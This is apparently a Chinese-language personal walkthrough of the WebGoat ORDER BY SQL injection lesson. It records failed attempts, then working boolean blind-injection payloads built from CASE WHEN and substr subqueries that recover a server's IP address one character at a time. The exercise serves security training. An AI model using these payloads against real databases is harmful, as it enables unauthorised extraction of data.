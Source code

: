 `select id, hostname, ip, mac, status, description from servers where status <> 'out of order' order by true`
从数据库中选择所有状态不为 `'out of order'` 的记录，并尝试按 `true` 进行排序。

推测我们的目标server应该是`status='out of order'`的

> 这里不能用的参考但说不定以后有用：
> https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-11-order%2Climit%E5%92%8Cfrom%E5%90%8E%E7%9A%84%E6%B3%A8%E5%85%A5.md

试试if，发现不能用
![](../../images/Pasted%20image%2020241111142618.png)
报错也不行
![](../../images/Pasted%20image%2020241111142719.png)
这个参考都不能用

看了别人的，这个地方上一页其实讲了
![](../../images/Pasted%20image%2020241111144249.png)
但好像少写了END
`(CASE+WHEN+(true)+THEN+1+ELSE+2+end)`
![](../../images/Pasted%20image%2020241111144358.png)
`(CASE+WHEN+(substr('2222',1,1)='1')+THEN+1+ELSE+2+end)`应该输出按照Hostname排序的但是没有变化
很奇怪，最后还是把1和2改成列名了，必须通过修改
![](../../images/Pasted%20image%2020241111153416.png)
这样才对 `(CASE+WHEN+(substr('2222',1,1)='1')+THEN+id+ELSE+hostname+end)`
那就可以盲注了

string字符串是：`(select ip from servers where hostname=‘webgoat-prd’)
> [!warning] 
>  此处拷贝自网页的字符串好像有问题，这个引号是中文字符！！！！
>  Burpsuite拷贝过去后会吞掉中文字符，看起来就是引号消失了，自己补充一下引号其实会变成下面的状态
> (CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)
> 但是页面看不到乱码！！！！
>  ![](../../images/Pasted%20image%2020241111154052.png)

string字符串是：`(select ip from servers where hostname='webgoat-prd')
substr的第2个参数是递增整个字符串的，已知后面3段，我们大概要猜3个字符
作为ip地址的第一位大概率是`'1'`
`(CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)`
![](../../images/Pasted%20image%2020241111154630.png)

还要搞2位，分别为0~9
第2位是0
![](../../images/Pasted%20image%2020241111154752.png)
第3位是4
![](../../images/Pasted%20image%2020241111154838.png)

也就是 `104.130.219.202`，成功！
